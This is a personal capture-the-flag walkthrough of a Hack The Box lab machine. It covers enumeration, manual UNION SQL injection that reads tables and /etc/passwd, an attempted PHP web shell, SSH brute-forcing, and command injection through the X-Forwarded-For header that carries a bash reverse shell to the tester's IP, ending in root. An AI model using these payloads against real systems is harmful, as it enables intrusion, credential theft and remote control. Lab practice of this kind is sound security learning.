



==
tags: #linux #sqli

==

* nmap
  #+begin_src bat
  sudo nmap -sV -sC -oA nmap/union.basic 10.129.96.75
  
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  #+end_src
** full scan
   #+begin_src bat
   sudo nmap  -p- -A -T4 -oA nmap/union.full 10.129.96.75
   #+end_src
   finds nothing new
* port 80
  the default page is just an input which seemingly accepts anything and points us to the
  =/challenge.php= page which is another input for the flag.
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-01_11-22.png @ 2026-04-01 11:22:51
  

  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-03-29_09-56.png @ 2026-03-29 09:57:10
  
* frontend code
  the index.php page has the following ajax function:
    #+begin_src js
    $(function () {

    $('form').on('submit', function (e) {

    e.preventDefault();

      $.ajax({
        type: 'post',
        url: 'index.php',
        data: 'player=' + document.getElementsByName('player')[0].value,
        async: true,
        success: function (data) {
          $('#output').html("");
          $('#output').append(data);
        }
      });

    });

  });
    #+end_src
    there's no actual backend call here; same for the =challenge.php= page;
    #+begin_src html
    <form action="#" method="Post">
    <input type="text" name="flag" placeholder="flag">
    <button type="submit" class="btn btn-default">Join Now<i class="fa fa-envelope"></i></button>
    </form>
    #+end_src
* fuzz
  #+begin_src bat
  ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.96.75/FUZZ.php

index                   [Status: 200, Size: 1220, Words: 158, Lines: 43, Duration: 29ms]
#                       [Status: 200, Size: 1220, Words: 158, Lines: 43, Duration: 43ms]
firewall                [Status: 200, Size: 13, Words: 2, Lines: 1, Duration: 29ms]
config                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 26ms]
challenge               [Status: 200, Size: 772, Words: 48, Lines: 21, Duration: 27ms]
:: Progress: [87664/87664] :: Job [1/1] :: 1176 req/sec :: Duration: [0:01:02] :: Errors: 0 ::
  #+end_src
  trying =/firewall.php= results in access denied
** directory
   #+begin_src bat
   ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.96.75/FUZZ

css
   #+end_src
* sqli
  #+begin_src bat
  $ sqlmap  'http://10.129.96.75/challenge.php#' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Lan
guage: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://10.129.96.75' -H 'Connection: keep-alive' -H 'Referer: http://10.129.96.75/challenge.php' -H 'Cookie: PHP
SESSID=ntum07o1rbk7aurmo0qfecfob3' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'flag=test' --batch --level=5 --risk=3 
  #+end_src
* nginx vulns
  searching for =nginx 1.18.0= exploits reveals nothing useful; just some ddos stuff.
* php filter
#+begin_src 
http://10.129.96.75/challenge.php?flag=php://filter/read=convert.base64-encode/resource=config
#+end_src
* fuzz parameter name
  #+begin_src 
  ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
     -u http://10.129.96.75/challenge.php \
     -X POST \
     -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
     -H 'Cookie: PHPSESSID=ntum07o1rbk7aurmo0qfecfob3' \
     -d 'FUZZ=value'
  #+end_src
  doesn't discover anything
  #+begin_src 
  ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.129.12.103/index.php -X POST -d "player=2414&FUZZ=1"
  #+end_src
* vhost fuzzing
  with gobuster:
  #+begin_src bat
  gobuster vhost -u http://10.129.96.75 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
  #+end_src
  NOTE: according to gemini, the below is the correct approach
  #+begin_src bat
  ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://10.129.96.75 -H "Host: FUZZ" -fs 1220
  #+end_src
* php reverse shell
  #+begin_src 
  <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.71/1234 0>&1'"); ?>
  #+end_src
  as player name; obviously does nothing.
* lfi check
  #+begin_src bat
  ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://10.129.96.75/index.php  -X POST -d "player=FUZZ"
  #+end_src
* code injection
  #+begin_src 
  ffuf -w /usr/share/seclists/Fuzzing/polyglots.txt -u http://10.129.12.103/index.php -X POST -d "player=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -v
  #+end_src
* reflected xss
  #+begin_src html
  
  #+end_src
  pops an alert box
* cookie stealing
  #+begin_src js
  
  #+end_src
* guided mode
  apparently, this is sql injection;
  #+begin_src 
  There is an SQL injection vulnerability in the player parameter. sqlmap will not work here,
  as there's a WAF blocking it. We'll have to exploit this manually.
  #+end_src
  we focused on the =/challenge.php= page; instead, the sqli is on the index page
** fuzz for sqli
   #+begin_src 
  ffuf -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://10.129.12.103/index.php -X POST -d "player=FUZZ"
   #+end_src
   this doesn't come up with anything
** OR injection
   #+begin_src
   2414' OR 1=1-- -
   #+end_src
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-04-01_11-21.png @ 2026-04-01 11:22:09
   

   as can be seen, compared to the first image, the text =Complete the challenge here= with a
   link to the =/challenge.php= page has disappeared.
   close to giving up at this point.
*** ippsec
    ok it involves union injection; so let's try some payloads
    #+begin_src 
    cn' UNION select 1,2,3,4-- -
    #+end_src
    works; try different column sizes for the select statement; eventually we get for:
    #+begin_src 
    cn' UNION select 1-- -

Sorry, 1 you are not eligible due to already qualifying.
    #+end_src
    let's try the version:
   #+begin_src 
   cn' UNION select @@version-- -

Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
   #+end_src
   ok, so this is working
*** get database name
   #+begin_src sql
   cn' UNION select database()-- -

Sorry, november you are not eligible due to already qualifying.
   #+end_src
*** table name
    #+begin_src sql
    foo' UNION select TABLE_NAME from INFORMATION_SCHEMA.TABLES where table_schema='november'-- -

Sorry, flag you are not eligible due to already qualifying.
    #+end_src
*** column name
    check number of columns
    #+begin_src sql
    foo' UNION select count(*) from INFORMATION_SCHEMA.COLUMNS where table_name='flag'-- -
    #+end_src
    #+begin_src sql
    foo' UNION select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='flag'-- -

Sorry, one you are not eligible due to already qualifying.
    #+end_src
*** data
    #+begin_src 
    foo' UNION select one from flag-- -

Sorry, UHC{F1rst_5tep_2_Qualify} you are not eligible due to already qualifying.
    #+end_src
    ok, so this is the flag; now, when we go to the =/challenge.php= page and enter it, we get
    redirected to =/firewall.php= with the following text:
    #+begin_src 
    Welcome Back!
    Your IP Address has now been granted SSH Access.
    #+end_src
* ssh
  and sure enough, an nmap scan now shows the ssh port is open
  #+begin_src bat
  $ sudo nmap -sV -sC 10.129.12.103

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
  #+end_src
  ok, where do we get the username and password from?
** how many tables exist in november
   #+begin_src sql
   foo' UNION select count(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where table_schema='november'-- -

2
   #+end_src
** second table name
    #+begin_src sql
    foo' UNION select TABLE_NAME as name from INFORMATION_SCHEMA.TABLES where table_schema='november' order by name DESC-- -
    #+end_src
    this didn't work; order by with UNION can be a bit finicky (gemini); so:
    #+begin_src sql
    foo' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='november' LIMIT 1 OFFSET 1-- -

players
    #+end_src
** columns of the players table
   #+begin_src sql
   fo' UNION select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='players'-- -

player
   #+end_src
   other columns?
   #+begin_src sql
   fo' UNION select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='players' LIMIT 1 OFFSET 1-- -
   #+end_src
   doesn't work; checking count, this is the only column
** data
   #+begin_src sql
   foo' UNION select player from players-- -

ippsec
   #+end_src
   trying to ssh with this username and =UHC{F1rst_5tep_2_Qualify}= as the password fails
** check if there's other data in the flag table
   #+begin_src sql
   foo' UNION select count(one) from flag-- -

1
   #+end_src
** check if there are other databases
   #+begin_src sql
   foo' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET 4-- -
   #+end_src
   tried changing the offset from 0 to 4; however there's only one relevant database.
* crack ssh
  #+begin_src bat
  hydra -l ippsec -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt ssh://10.129.96.75 -f -u
  #+end_src
  doesn't work
* count players
  #+begin_src sql
  foo' UNION select count(*) from players-- -

5
  #+end_src
** get other players
   #+begin_src sql
   foo' UNION select player from players LIMIT 1 OFFSET 1-- - ;; change offset from 1-4

celesian
big0us
luska
tinyboy
   #+end_src
** try and crack
   #+begin_src bat
   $ hydra -L user.list -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt ssh://10.129.96.75 -f -u
   #+end_src
   stop; takes forever and returns nothing
   also, simultaneously, let's check if one of the usernames is a password for the same or
   another username;
   #+begin_src bat
   medusa -h 10.129.96.75 -U users.list -P users.list -M ssh 
   #+end_src
   nope.
* check database user privs
  #+begin_src sql
  foo' UNION select user()-- -

uhc@localhost
  #+end_src
  #+begin_src 
  foo' UNION SELECT super_priv FROM mysql.user-- -

Y
  #+end_src
  ok, so we have superuser privs.
* read files
  let's check if we can read files
  #+begin_src sql
  foo' UNION SELECT LOAD_FILE('/etc/passwd')-- -

root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
  #+end_src
** check if there's a private ssh key
  #+begin_src sql
  foo' UNION SELECT LOAD_FILE('/home/uhc/.ssh/id_rsa')-- -
  #+end_src
  doesn't exist
* write file
  #+begin_src sql
  foo' union select '<?php system($_REQUEST[0]); ?>' into outfile '/var/www/html/shell.php'-- -
  #+end_src
  didn't work; can we write?
  #+begin_src sql
  foo' union SELECT variable_value FROM information_schema.global_variables where variable_name='secure_file_priv'-- -
  #+end_src
  doesn't return anything; according to gemini, newer mysql versions use =performance_schema=:
  #+begin_src sql
  foo' union SELECT variable_value FROM performance_schema.global_variables where variable_name='secure_file_priv'-- -

/
  #+end_src
** check web site location
  #+begin_src sql
  foo' UNION SELECT LOAD_FILE('/var/www/html/index.php')-- -

Sorry, '; echo '
'; echo 'Complete the challenge here'; } exit; } ?> 
  #+end_src
  this shows the contents of the index page below so yes, it's =/var/www/html=
** write random text file
  #+begin_src sql
  foo' union select 'hi' into outfile '/var/www/html/hello.txt'-- -
  #+end_src
  doesn't work. write to =/tmp=
  #+begin_src sql
  foo' union select 'hi' into outfile '/tmp/hello.txt'-- -
  #+end_src
  same
  #+begin_src sql
  foo' union select "hi" into outfile '/home/uhc/hello.txt'-- -
  #+end_src
* user htb
  there's another user htb which i missed initially; let's check for id_rsa
  #+begin_src sql
  foo' UNION SELECT LOAD_FILE('/home/htb/.ssh/id_rsa')-- -
  #+end_src
  #+begin_src sql
  foo' UNION SELECT LOAD_FILE('/home/htb/.ssh/authorized_keys')-- -
  #+end_src
* index.php
  actually, let's view the entire content using inspect
  #+begin_src bash
  <!--?php
  require('config.php');
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {

	$player = strtolower($_POST['player']);

	// SQLMap Killer
	$badwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
	foreach ($badwords as $badword) {
		if (preg_match( $badword, $player )) {
			echo 'Congratulations ' . $player . ' you may compete in this tournament!';
			die();
		}
	}

	$sql = "SELECT player FROM players WHERE player = '" . $player . "';";
	$result = mysqli_query($conn, $sql);
	$row = mysqli_fetch_array( $result, MYSQLI_ASSOC);
	if ($row) {
		echo 'Sorry, ' . $row['player'] . " you are not eligible due to already qualifying.";
	} else {
		echo 'Congratulations ' . $player . ' you may compete in this tournament!';
		echo ' 
  #+end_src
* config.php
  #+begin_src bash
  <!--?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?-->
  #+end_src
* user flag
  ssh with this password and we get the user flag
  #+begin_src 
  15fc757d883bef8d16d73e953ec8133e
  #+end_src
* linpeas
  reveals the =htb= user has sudo rights; also says it's
  #+begin_src 
  Vulnerable to CVE-2021-3560
  #+end_src
  however, going through the github exploit page, it doesn't seem like it's true.
* reverse shell
  #+begin_src 
  "/bin/bash -c 'bash -i > /dev/tcp/10.10.16.71/4444 0>&1'"
  #+end_src
* firewall.php
  the key lines from firewall.php are:
  #+begin_src bash
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
  echo "Access Denied";
  exit;
}
?>
# <SNIP>
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
  #+end_src
  so we can control the =ip= variable by sending data via =$_SERVER['HTTP_X_FORWARDED_FOR']=
  #+begin_src 
  curl -H "X-Forwarded-For: 1.1.1.1; bash -c 'bash -i >& /dev/tcp/10.10.16.71/4444 0>&1'" http://10.129.96.75/firewall.php
  #+end_src
  this should work, however, I used the intercepted request from burpsuite to do this.
  #+begin_src bat
  $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.71] from (UNKNOWN) [10.129.96.75] 49316

www-data@union:~/html$ whoami
whoami
www-data
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$ sudo su
sudo su

whoami
root
cd /root
ls
root.txt
snap
cat root.txt
80350f93054ab0d7bdfe93bfbbdd2bde
  #+end_src
* ippsec
** gobuster to fuzz for php files
   #+begin_src bat
   gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster.out -u http://10.129.96.75
   #+end_src
** sqlmap
   saves the request from burp and runs with
   #+begin_src bat
   sqlmap -r flag.req --dump
   #+end_src
   not sure if this worked for us
   #+begin_src 
   whenever testing for sqlmap, you always wanna find the query that returns something.
   #+end_src
   also, this requires context to figure out that people who have played this tournament
   before are not eligible to play again; thus entering names like =ippsec= or =celerian= will
   return inelgible. in our case, we tried random input all of which returned success, so it
   was not even clear that there was an actual database call.
   anyway, he tries =ippsec' -- -= as an input and realizes that the comment is not reflected in
   the html
   BUT: we did not fuzz against the index page, so let's do that
*** fuzz sqli on the index page
     #+begin_src bat
     ffuf -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt \
     -u http://10.129.96.75/index.php \
     -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -H "X-Requested-With: XMLHttpRequest" \
     -b "PHPSESSID=r9doc907fdc0nklbcdpajn74dk" \
     -d "player=FUZZ" \
     -v
     #+end_src
     since everything returns 200 and the response size varies by the size of the input text,
     it's difficult to say if anything works.
** group concat
   #+begin_src sql
   union select group_concat(schema_name) from information_schema.schemata-- -
   #+end_src
   this will return all the rows, so there's no need to do limit, offset like we did
   to get data, use:
   #+begin_src sql
   union select group_concat(TABLE_NAME, ":", COLUMN_NAME, "\n") from information_schema where TABLE_SCHEMA = 'november'-- -
   #+end_src
** rce confirmation
   uses =sleep= to verify it exists:
   #+begin_src 
   X-FORWARDED-FOR: ;sleep 3; // sleep 1, 2, 3...
   #+end_src
* learnings
  try sql injections even on non-obvious candidates? (index.php in this case)
